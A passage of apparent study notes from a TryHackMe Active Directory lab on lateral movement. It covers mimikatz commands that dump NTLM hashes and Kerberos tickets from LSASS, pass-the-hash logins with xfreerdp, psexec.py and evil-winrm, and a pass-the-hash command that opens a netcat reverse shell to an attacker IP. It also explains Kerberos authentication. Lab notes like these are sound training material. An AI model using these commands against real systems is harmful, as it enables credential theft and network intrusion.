 				- `lsadump::sam`
			- To extract NTLM hashes from LSASS memory
				- Extracts any NTLM hashes for local users and and domain users that has recently logged onto the machine.
				- Transfer mimiktaz to the target and run it using `.\mimikatz.exe`.
				- `privilege::debug`
				- `token::elevate`
				- `sekurlsa::msv`
			- We can then use the extracted hashes to perform Pass-the-Hash attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command we like)
				- `token::revert`
				- `sekurlsa::pth /usr:<username> /domain:<domain-name> /ntlm:<ntlm-hash> /run:<command>` `sekurlsa::pth /usr:bob.jenkins /domain:za.tryhackme.com /ntlm:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker-ip> 5555`.
				- Notice we used `token::revert` to reestablish our original token privileges, as trying pass-the-hash with an elevated token won't work.
				- Receive the reverse shell using `nc -lvp 5555`.
			- Several tools in Linux have built-in support to perform Pass-the-Hash using different protocols.
				- Connect to RDP using PtH `xfreerdp /v:<target-ip> /u:<domain>\\<user> /pth:<ntlm-hash>`
				- Connect via psexec using PtH `psexec.py -hashes <ntlm-hash> <domain>/<user>@<target-ip>`
				- Connect to WinRM using PtH `evil-winrm -i <target-ip> -u <user> -H <ntlm-hash>`
	- #### *Kerberos Authentication*
		- **Process**
			- The user sends his username and a timestamp encrypted using a key derived from his password to the Key Distribution Center `KDC`; a service usually installed on the DC that handles ticket generation on the network.
			- The `KDC` will create and send back a `TGT`, allowing a user to request tickets to access specific services without passing their credentials to the services. Along with the `TGT`, a `Session Key` is sent, which will be used to generate the requests that follow.
			- The `TGT` is encrypted using the `krbtgt` account's password hash, so the user can't access its contents. It is important to know that the `TGT` contains a part of the `Session Key` in its contents, and the `KDC` doesn't store the `Session Key`, it can recover it by decrypting the `TGT`.
			- The user then sends his username and a timestamp encrypted using the `Session Key` along with the `TGT` and a Service Principle Name `SPN` which indicates the service and server name he intends to access. These are all sent to ask the `KDC` for a `TGS`, which gives the user access to a specific service.
			- `KDC` will then send a `TGS` and a `Service Session Key`, which will be used to authenticate to the service, to the user.
			- The `TGS` is encrypted using the `Service Owner Hash`. The Service Owner is the user or machine account under which the service runs.
			- The `TGS` contains a copy of the `Service Session Key` on its encrypted contents so that the Service Owner can access it by decrypting the `TGS`.
			- The `TGS` can then be sent to the requested upon service to authenticate and establish a connection. The service will use it's configured account's password hash to decrypt the `TGS` and validate the `Service Session Key`.
		- **Pass-the-Ticket**
			- To extract Kerberos tickets and session keys from LSASS memory using mimikatz, SYSTEM privileges are required.
				- `.\mimikatz.exe`
				- `privilege::debug`
				- `sekurlsa::tickets /export`
			- Both the ticket and its corresponding session key are required.
			- Mimikatz will extract any TGT and TGS available from the memory of LSASS process, but we are only interested in TGT as they can be used to request access to any service that the user is allowed to access.
			- Extracting `TGT`s will require administrator's credentials, and extracting `TGS`s will only need low-privileged account (only the ones assigned to that account).
			- After extracting the ticket, inject the tickets into the current session using `kerberos::ptt <ticket>`.
			- Check if the tickets were correctly injected using `klist` from CMD.
		- **Overpass-the-Hash / Pass-the-Key**
			- Similar to PtH but applied to Kerberos networks.